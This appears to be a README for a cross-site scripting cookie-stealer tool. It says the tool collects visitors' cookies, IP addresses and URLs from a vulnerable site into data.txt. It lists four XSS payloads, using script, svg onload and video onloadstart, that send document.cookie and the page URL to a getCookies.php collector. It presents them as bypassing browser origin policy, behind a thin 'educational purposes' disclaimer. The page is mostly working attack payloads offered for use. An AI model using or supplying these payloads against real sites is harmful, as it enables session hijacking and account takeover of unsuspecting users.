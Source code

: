 <h2>For educational purposes only, use at your own responsibility.</h2>

<p>This script gets  all cookies, ip address and url from vulnerable site and stores it in data.txt.</p>

<p>Here same payload examples for usage.</p>

    <sCRiPt>new Image().src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;</sCRiPt>

    <svgonload=setTimeout(function(a){a=document.createElement(`img`);a.src=`https://localhost/getCookies.php?       u=${document.location.href}&c=${document.cookie}`;document.getElementsByTagName(`body`)[0].appendChild(a);},500);>

    <video autoplay onloadstart="new Image().src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;" src=x></video>

    <sCRiPt>new Image().src="https://localhost/getCookies.php?u="+document.location.href+"&c="+document.cookie;</sCRiPt>

<p>These examples in above is written for bypassing cross site origin policy in all browsers but you can use your own payload instead.</p>

From: Cyberzone.az
